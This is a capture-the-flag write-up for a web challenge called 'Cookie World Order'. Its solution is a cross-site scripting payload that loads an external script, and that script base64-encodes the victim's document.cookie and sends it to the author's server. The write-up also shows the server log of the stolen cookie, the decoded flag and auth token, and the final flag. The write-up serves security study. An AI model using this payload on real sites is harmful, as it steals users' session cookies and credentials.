 # Cookie World Order (web)
Good job! You found a further credential that looks like a VPN referred to as the cWo. The organization appears very clandestine and mysterious and reminds you of the secret ruling class of hard shelled turtle-like creatures of Xenon. Funny they trust their security to a contractor outside their systems, especially one with such bad habits.  Upon further snooping you find a video feed of those "Cauliflowers" which look to be the dominant lifeforms and members of the cWo. Go forth and attain greater access to reach this creature!

https://cwo-xss.web.ctfcompetition.com/

### Solution

This task is pretty easy to solve. We have a typical XSS attack here.
```html
<SCRIPT SRC="https://mfurga.com/xss.js"></SCRIPT>

<!-- xss.js -->
"use strict";
(function() {
  var req = new XMLHttpRequest();
  req.open(
    "GET", "https://mfurga.com?data=" + btoa(document.cookie), false);
  req.send();
})();
```
```js
104.155.55.51 - - [28/Jul/2019:16:03:51 +0200] "GET /?data=ZmxhZz1DVEZ7M21icjRjM190aGVfYzAwazFlX3cwcjFkX29yZDNyfTsgYXV0aD1UVXRiOVBQQTljWWtmY1ZRV1l6eHk0WGJ0eUwzVk5Leg== HTTP/1.0" 200 1959 "https://cwo-xss.web.ctfcompetition.com/exploit?reflect=%3CSCRIPT/XSS%20SRC=%22https://mfurga.com/xss.js%22%3E%3C/SCRIPT%3E" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3827.0 Safari/537.36"

> atob("ZmxhZz1DVEZ7M21icjRjM190aGVfYzAwazFlX3cwcjFkX29yZDNyfTsgYXV0aD1UVXRiOVBQQTljWWtmY1ZRV1l6eHk0WGJ0eUwzVk5Leg==")
"flag=CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}; auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz"
```

**FLAG: CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}**

